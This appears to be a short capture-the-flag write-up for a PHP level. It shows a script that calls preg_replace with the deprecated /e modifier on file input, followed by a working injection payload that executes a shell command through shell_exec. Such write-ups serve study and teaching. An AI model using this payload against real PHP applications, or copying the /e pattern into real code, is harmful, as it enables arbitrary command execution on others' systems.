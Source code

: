 There is file level06.php
```
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
as we see in the regex they used flag /e
The e modifier is a deprecated regex modifier which allows you to use PHP code within your regular expression. This means that whatever you parse in will be evaluated as a part of your program.

so we need to add a php code to get the flag and this code must match the regex 
`[x {${shell_exec(getflag)}}]`
